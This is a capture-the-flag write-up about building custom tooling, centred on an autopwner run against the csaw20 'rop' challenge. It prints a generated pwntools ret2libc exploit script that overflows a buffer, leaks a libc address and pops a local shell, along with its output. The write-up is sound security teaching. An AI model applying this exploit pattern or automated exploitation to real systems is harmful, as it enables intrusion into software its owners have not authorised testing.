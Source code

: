 # Custom Tooling

So this writeup is a bit unique when compared to the other writeups. It's mainly to show you about some types of custom tooling that you can make and use to make you better at ctfs.

Just to preface this, generally speaking being a script kiddy is bad. Being a script kiddy generally means that you are using a tool to substitute for a lack of knowledge. A good way to tell the difference is could you make the tool that you are using (unless it is a tool like Ghidra that would take 5 years to make, in which case you have a rough understanding of what it does). If there is a task apart of some work that you do, which you know how to do and have to do that task often, writing a good usable tool to automate that task will flat out make you better able to do that work (assuming it won't take like 10 years to make that tool). Here is an example.

## Remenissions

So let's take for instance the challenge `rop` from `csaw20`. This is fairly simple to the challenges from the module `08-bof_dynamic`. It's a simple bof challenge, with the libc provided. To solve it, you just do a buffer overflow of the return address, do a `puts` libc infoleak, call main again, and then re-exploit the buffer overflow bug to return to libc and pop a shell.

Now before hand, the typical workflow for this type of challenge look something like this:

```
0.) Download Challenge
1.) Get Binary Attributes/Mitigations
2.) Run it to see what it does
3.) Load it into Ghidra
4.) Analyze code, find vulnerabilities and alternate win conditions
5.) Look at bugs and things the binary has, decide on attack to attempt
6.) Write exploit script to launch attack
7.) Test it out locally
8.) Run against remote server, get flag and submit it
9.) Fix stupid mistakes made in previous steps
```

Now the thing is, there are a lot of easy ctf challenge types that you will see in most ctfs that aren't extremely (includes buffer overflows, ret2libc/remote libc id, fmt strings, etc.). Because of that I wrote an autopwner called `remenissions` (`https://github.com/guyinatuxedo/remenissions`).

Now instead of the above workflow, imagine if the workflow looked like this:

```
$    remenissions -b rop -l libc-2.27.so
```

and after the autopwner is done:

```
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
libc base is: 0x7f64faa2c000


Exploit Successful: exploit-Ret2Libc-0.py


$    ls
libc-2.27.so  readme.md  remenissions-work  rop  verfied-exploit-Ret2Libc-0.py
$    cat verfied-exploit-Ret2Libc-0.py
from pwn import *

import os
import sf
import sys
import signal

target = process("./rop", env={"LD_PRELOAD":"./libc-2.27.so"})
gdb.attach(target)
bof_payload = sf.BufferOverflow(arch=64)

bof_payload.set_input_start(0x28)
rop_chain = [4195971, 6295576, 4195488, 4195804]
bof_payload.add_rop_chain(rop_chain)
payload = bof_payload.generate_payload()
target.sendline(payload)
target.recvline()
leak = target.recvuntil(b"\n").strip(b"\n")
puts_address = u64(leak + b"\x00"*(8-len(leak)))
libc_base = puts_address - (526896)
print("libc base is: %s" % hex(libc_base))
bof_payload = sf.BufferOverflow(arch = 64)
bof_payload.add_base("libc", libc_base)
bof_payload.set_input_start(0x28)
bof_payload.set_ret(0x10a45c, "libc")
payload = bof_payload.generate_payload()
target.sendline(payload)

# Exploit Verification starts here 15935728


target.interactive()
$    python3 verfied-exploit-Ret2Libc-0.py
[+] Starting local process './rop': pid 5580
[*] running in new terminal: /usr/bin/gdb -q  "./rop" 5580
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
libc base is: 0x7f855384b000
[*] Switching to interactive mode
Hello
$ w
 12:57:24 up  1:14,  1 user,  load average: 0.63, 0.31, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               11:51   ?xdm?   1:52   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core          readme.md         rop
libc-2.27.so  remenissions-work  verfied-exploit-Ret2Libc-0.py
```

As you can see here, `remenissions` was able to automatically generate a successful exploit. During `csaw20` this is how my team (and a few others) solved this challenge. As of now, the `remenissions` has landed over 100 ctf challenges (in the `remenissions` repo is a link to them)

Now the reason why I'm showing you this isn't to flex. It's to show you how useful good tooling can be. Because I made `remenissions`, there is a good amount of easy ctf pwn challenges (that I've solved dozens of times before) that I can solve with the push of a button. Now `remenissions` itself comprises a lot of different tools, that automate a lot of tasks which make this up. The tools automate tasks such as bug finding with ghidra, remote libc id, dealing with libc linker issues, dynamic analysis to see what the actual memory layout is while running the binary, exploit generation and verification, looking at the bugs/alternate win conditions and choosing an attack, and more. This just goes to give you an idea of some of the things that tools you make can do, and the advantage it can give you (even outside of ctfs, with vuln research work).
